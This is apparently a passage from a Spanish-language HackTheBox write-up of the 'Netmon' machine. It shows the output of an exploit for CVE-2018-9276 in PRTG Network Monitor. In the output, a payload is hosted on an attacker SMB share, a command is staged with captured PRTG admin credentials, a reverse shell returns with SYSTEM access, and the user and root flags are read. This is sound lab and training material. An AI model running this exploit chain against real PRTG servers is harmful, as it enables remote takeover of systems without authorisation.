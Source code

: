 ```bash
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/HackTheBox/Windows/Netmon/content/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/HackTheBox/WindowsNetmon/content/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.16.5\RDDKZBLF]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.16.5:443 for the reverse shell!]
listening on [any] 443 ...
[*] Incoming connection (10.10.10.152,50211)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.152] 50212
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Logramos visualizar las flags de **user.txt** y **root.txt**.

```powershell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
d7ce13a72ca*********************

C:\Users\Administrator\Desktop>type C:\Users\Public\Desktop\user.txt
type C:\Users\Public\Desktop\user.txt
c9bb3ffd4f3*********************
```
